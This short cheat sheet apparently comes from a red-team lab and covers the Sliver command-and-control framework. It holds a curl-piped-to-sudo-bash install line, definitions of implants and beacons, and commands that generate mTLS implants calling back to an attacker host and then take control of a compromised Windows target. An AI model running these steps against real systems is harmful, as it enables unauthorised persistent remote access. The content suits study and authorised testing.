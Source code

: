 ```
curl https://sliver.sh/install|sudo bash
```
```
sliver
```
-   **Implant** - A generic term for piece of software used to maintain access to an environment or system, generally through the use of command and control (C&C, C2, etc.), this is the code that the attack executes on the target machine as well as maintain access. The term "implant" is often interchangeable with "agent."
-   **Beacon** - May refer to (1) a communication pattern where an implant periodically connects to the C2 server as apposed to using a stateful/real time connection (2) [Cobalt Strike's](https://www.cobaltstrike.com/) primary implant, more often called "CS Beacon." In the context of Sliver, "Beacon" specifically refers to a Sliver implant that implements definition (1) communication style.
Generate an implant
```
generate --mtls $KALI --save /home/havoc/Desktop
```
Generate a beacon
```
generate beacon --mtls $KALI --save /home/havoc/Desktop
```
```
mtls
```
```
beacons watch
```
Transfer and run exe on target
`BEACON  3a5d9594  PROFESSIONAL_SAUSAGE  192.168.19.131:49883  Target  TARGET\Target  windows/amd64`
```
use 3a5d9594
```
